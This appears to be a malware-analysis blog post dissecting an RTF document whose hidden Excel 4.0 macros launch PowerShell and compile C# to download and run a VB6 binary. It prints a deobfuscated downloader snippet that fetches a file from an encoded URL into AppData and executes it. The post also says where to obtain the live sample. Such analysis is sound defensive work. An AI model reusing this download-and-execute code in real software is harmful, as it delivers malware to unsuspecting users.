


Analyzing Modern Malware Techniques - Part 2
A case of Powershell, Excel 4 Macros and VB6(part 1 of 2)
Preface:
In continuation of my previous article, I wanted to focus on the next techniques I listed in my previous article(Macros and Powershell), these go under the category of LOLbins(How people don’t die laughing from just saying that noun is beyond me). These LOLbins(haha) are used to Live off the land(LOL, haha again) which means the malware will utilize windows tools to avoid detection. From being active on twitter and being updated in current threat attack news, macros and powershell seem to be the main attack vector when it comes to your average malware campaign. while one like me who enjoys getting his hands dirty with assembly I was not very excited to dig into this but what I found, though not that special, proved to be quite a challenge to analyze for a novice like me(maybe I should be more humble). Anyway let’s begin!
Background knowledge required:
- Knowledge in C and Assembly
- Knowledge in WINAPI
- Knowledge in IDA and x64dbg
- Novice experience with analyzing obfuscated scripts
Tools used
- Any.Run
- OLETools
- IDA
- PEBear and PEID
- Resource Hacker
- Powershell ISE
Sample:
Basic Static & Dynamic Analysis:
In order to find the sample, I performed a simple search on the amazing platform called Any Run, which allows you to perform a basic static and dynamic analysis of a sample you upload into it. Not only that, but in addition it allows you to download the samples off the platform for free(there are some cool payed features such as running a 64bit VM or setting up a specific VM with different language settings etc).
This malware seems to perform a lot of things, and it’s not what I’d call very stealthy:

First word executes, then 5 excel processes launch, which all execute powershell. then csc.exe executes which is marked with a little bug sign which means Any.Run identified it as malicious. Each excel process launches a powershell process which launches the malware in return. the malware seems to launch cvtres.exe which is a legit Microsoft application and holds the following description:
“Microsoft® Resource File To COFF Object Conversion Utility”
There is more information here, but I want to leave that to us to figure out because its fun.
Analysis goals of malicious documents:
I have never analyzed malicious documents before this blog post, but I always work with predefined goals. A cheat sheet from Lenny Zeltser which provides some help on how to approach such a task.
So first we answer:
“Examine the document for anomalies, such as risky tags, scripts, or other anomalous aspects.”
Well easy, we go to Any.Run and click info:

This file is an RFT document, but then Lenny states:
“RTF documents don’t support macros, but can contain other files embedded as OLE1 objects.”
I didn’t know this but RFT files auto run office files embedded inside of them.
This article explains how this might be executed in depth.
So next we must located the embedded objects, using the cheat sheet we download oletools and execute rftobj.py to dump embedded OLE objects that might be stored inside of the RFT file.

We got 5 excel sheets, all with the same name and MD5 hash. Interesting, since these are all the same file we can probably assume that we can just analyze one of them.
lets dump these files using the rtfdump.py(rtfdump.py file.rtf -s 5 -H -d > out.bin) command. Then I used olevba.py on the dumped excel file to dump or check for vba code:

The code is heavily obfuscated and its not just a VBA macro, its an XLM macro. These macros are old and date back to 1993 and are not in use today, but of course malware authors use them to trick AV’s since most security solutions ignore these. In addition, the usage of Shell(listed in red and marked suspicious in the picture) instantly worries me as this command is used to execute its parameters through cmd.
So lets extract the VBA by executing oledump.py again:
Stream number 10 contains the letter ‘M’ next to it, which indicates that this is a Macro object. Lets issue oledump.py -s 10 -v and copy the code from the shell(this can be also executed with officemalscanner).
Now let’s beautify the code we extracted:
One can only laugh from viewing the names the author chose to use. We can either debug this code and try to understand what it does or we can edit it.
We can simply replace the Shell command with Debug.print(nuzzle) to view the executed code, the only problem is that we need to access the workbook itself.
I tried to do it without opening the XLM file itself but because it was an XLM file no available tool would interact with it so I had to access it myself in the VM.
So let’s open up the XLM.

We click Yes but in the next prompt disable the macros on the first run. The next question I asked was how do I enter the VBA editor and where the hell is that excel worksheet. The first question is easy to answer. The second took me about 3 hours.
I’ll save those 3 hours for you(and the fact that you don’t need to unhide it cause the macro will run anyway), the sheet is hidden and it can be viewed by entering the View tab and clicking Unhide.

And this allows us to view cell (136,8) and (135,8). the cell value located in row 136 is really long and probably is the actual payload, so let’s open the developer tab and access the macro itself, replace the obfuscated script with the clean one and then edit Shell command then execute the macro.

Will print debug information into the console which can be activated by pressing control+G.
Scary, but do not worry as this can be de obfuscated really easily. let’s look at the 7th line - $g3b4e42 = r8dc5($g3b4e4). I can assume that r8dc5 is some kind of decrypting function as it takes the long input parameter of g3b4e4. So all we have to do, is see the contents of g3b4e4 after the code decrypts it.
I scanned the internet for a while and realized the best way to do this is using PowerShell ISE which is the Windows IDE for building and scripting powershell scripts.
The correct way to execute this is simply to copy the line 2 to 7. as for some reason powershell will not execute with line 1, in addition we don’t want line 8 - 9 because they might execute the code itself.
and to finalize our script will utilize the Write-Host command which is the equivalent of print() in python to print out $g3b4e42.

Lets copy this script into Sublime:
We can see imports being made to GetProcAddress, LoadLibrary and VirtualProtect but I’m only interested in code located in the red box.
WebClient ee86b=new WebClient();
string e17362=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData)+"\\aab37
"+r8dc5("57534106");
ee86b.DownloadFile(r8dc5("11424d135b5619580e000b575a0b08575450194e10515b0c030c534
3064f1c4e5c"),e17362);
ProcessStartInfo f636b4c=new ProcessStartInfo(e17362);
Process.Start(f636b4c);
We can tell from this code that a file will be downloaded and saved in a folder, then a process will start with the handle to the downloaded file(I assume), and I’m not going to be bothered to confirm it because it doesn’t matter to us. We want the binary to be downloaded. so we must run the same previous r8dc5 function to decrypt the input it gets to download the file!
Yay! we got it! but alas this domain is already down?

Well… it’s hard to say, because if we check the connections made to this domain from the any.run platform we can see that the powershell got this exact same response.

but we can try finding the sample to be downloaded if we simply google it.
urlhaus leads to Virus total which gives us the SHA256 hash of this file(which only 13 AV engines detected as of this date!) and a google search of that leads to hybrid-analysis, and from there we can get the raw sample(or 0x00sec users can just use getsample in the discord malware channel).
I downloaded the sample and ran it in PEID:

Alright, Vb6? Lets see how it looks in IDA:

So as soon as I got released from the hospital from the seizure I got from looking at the disassembly I decided to start digging further.
as the following virus bullet-in paper states:
"…The laughing vs. crying aspect of VB6 is primarily related to the fact that VB6 internals lack any sort of official documentation. The inner workings of the VB6 virtual machine and the functionality of its exported functions are literally a mystery to anyone who has not taken an in-depth look at msvbvm60.dll.
For native code reversing, it is crucial to understand the challenges of event-driven binaries. Also, the reverser must interpret the functionality of the VB6 APIs called from the binary. But, given that malware executes pretty linearly by nature, and the VB6 APIs are mostly assigned understandable names, native code reversing is just another colourful facet of x86 binaries…”
I knew I was in for a treat :).
Digging further I found the following article which introduced me to this IDC Ida script which did make things a bit more readable in IDA view. These articles also mention this tool called VB Decompiler which I decided to use, or at least try and get some results and it worked!

In addition to this finding, I launched the binary in the resource hacker tool and found a suspicious image inside:

{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
This leads me to believe that this might be a VB6 packer and it uses this image to unpack another executable.
Conclusion:
In this part of the article we demonstrated how might a malware analyst approach analyzing a maldoc, we learned that again - goal setting and understanding the bigger picture can save time in the process of malware analysis.
As this finding led me to a completely new binary I would like to dedicate the next part of this series to analyzing this malware but I would be doing so in a different post. Till next time  (probably this weekend)
(probably this weekend)
Sources used: